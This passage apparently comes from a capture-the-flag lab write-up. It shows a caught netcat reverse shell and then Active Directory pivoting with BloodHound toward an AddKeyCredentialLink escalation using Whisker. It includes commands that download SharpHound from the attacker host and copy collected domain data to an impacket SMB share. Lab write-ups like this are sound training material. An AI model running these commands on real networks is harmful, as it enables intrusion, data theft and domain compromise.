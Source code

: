 ```bash
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49877
^Z
zsh: suspended  nc -lvnp 1234
┌──(root㉿kali)-[~]
└─# stty raw -echo; fg
```
5) Finally double click Enter and that will be it...

### Client AD Pivoting
Since we are inside another machine we need to move laterally to the DC or the real victim machine (10.10.11.175) for this we can abuse of BloodHound utility, to install please refer to [[Bloodhound Installation]] guide.

What we need to perform on the victim machine is to first download the [Sharphound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) utility and upload it to the machine: ^8d2e14
```bash
PS C:\Windows\Temp\Recon> curl 10.10.14.2/SharpHound.exe -o SharpHound.exe
```
The output of the executable will generate two files:
![Description](/assets/img/Pasted image 20230125003006.png)
Starting an SMB server on our machine we'll be able to download such file:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```
Then all we need to do is download the file by copying it to the shareFolder Share:
```bash
copy bh.zip \\10.10.14.2\shareFolder\bh.zip
```
Then we need to upload this file into the Bloodhound service:
![Description](/assets/img/Pasted image 20230125004339.png)
After loading we then can use the bloodhound tool to check for potential pivoting and privilege escalations on the machines. One of the first enumeration techniques that we need to perform is to enumerate what we can do with our current compromised user, for that we need to enter its name on the search bar:
![Description](/assets/img/Pasted image 20230125004842.png)
Then we click on "Mark User as Owned":
![Description](/assets/img/Pasted image 20230125004932.png)
Then we click on btables user's icon and select any of the options on the search navigation bar and then select the Domain Admin Group:
![Description](/assets/img/Pasted image 20230125005138.png)
If the user is not generated on the graphic that means, there is no direct path to the Domain Admin:
![Description](/assets/img/Pasted image 20230125005421.png)
So we need to keep looking, now with the option "Shortest Path from Owned Principals"
![Description](/assets/img/Pasted image 20230125005540.png)
And now we get something interesting:
![Description](/assets/img/Pasted image 20230125005648.png)
If we right -click on the "AddKeyCredentialLink" and select the Help menu:
![Description](/assets/img/Pasted image 20230125010007.png)
We can see that in order to escalate privileges we need to abuse of Whiskers executable:
![Description](/assets/img/Pasted image 20230125013418.png)
And also it gives the Info to Abuse of such misconfiguration:
![Description](/assets/img/Pasted image 20230125013507.png)
We can download its counterpart on .ps1, in this case we can download the [Invoke-Whiskers.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Whisker.ps1) and upload it to the machine: ^f177f9

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio
[^full-tty-windows]: Fully Interactive TTY with ConPTY
[^follina]: Follina Exploitation
